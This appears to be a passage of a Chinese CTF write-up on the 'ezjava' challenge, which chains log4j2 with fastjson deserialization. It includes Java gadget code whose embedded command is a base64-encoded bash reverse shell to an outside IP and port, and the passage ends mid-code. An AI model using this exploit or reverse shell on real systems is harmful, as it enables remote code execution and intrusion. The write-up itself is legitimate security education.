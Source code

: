![](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-48c85af6851fceb7a49b7d06f8391be9d65da82c.png)

‍

\[HZNUCTF 2023 final\]ezjava
----------------------------

知识点： log4j2 + fastjson原生反序列化 + 高版本JNDI注入绕过

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-53ad2fa0bf663bcd63525bad0127c7b6d7bf2ae7.png)​

访问后提示能够`log`​你的`uri`​ 并且提示`fastjson 1.2.48`​ 先想到的是`log4j`​

于是用log4j的payload去打一下先

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4ae572327ff0ff9bd9c4e4d4ee4a2e1a72db84a4.png)​

发现java版本为`jdk1.8.0_222`​,因为在log4j打的其实就是JNDI注入，所以第一时间想到的就是 此版本已经是jdk8u191之后了，所以就不能够进行远程加载类了，那再探测下`fastjson`​的1.2.83使用通用的链子来打一下

```java
package Fastjson;
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class F83 {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTIuMTM2LjQ2LjI4Lzc5NzkgMD4mMQ==}|{base64,-d}|{bash,-i}")});
        setValue(templates, "_name", "qiu");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);
```